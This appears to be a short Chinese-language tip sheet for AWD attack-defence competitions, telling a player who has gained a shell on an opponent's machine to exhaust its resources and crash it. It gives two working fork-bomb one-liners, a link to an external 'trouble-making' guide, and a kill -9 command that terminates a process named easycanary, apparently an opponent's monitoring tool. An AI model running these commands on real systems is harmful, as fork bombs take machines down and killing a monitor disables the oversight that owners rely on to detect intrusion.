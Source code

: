 拿下shell后可以试试能不能搅屎，消耗资源，直接宕机。（别在自己机子上试！）

fork炸弹

```
:(){ :|: & };:
```

```
b(){ b|b& };b
```



awd搅屎指南

[https://trello.com/b/avr2o8x8/%E7%BA%BF%E4%B8%8Bawd](https://trello.com/b/avr2o8x8/%E7%BA%BF%E4%B8%8Bawd)



kill -9 $(pgrep easycanary)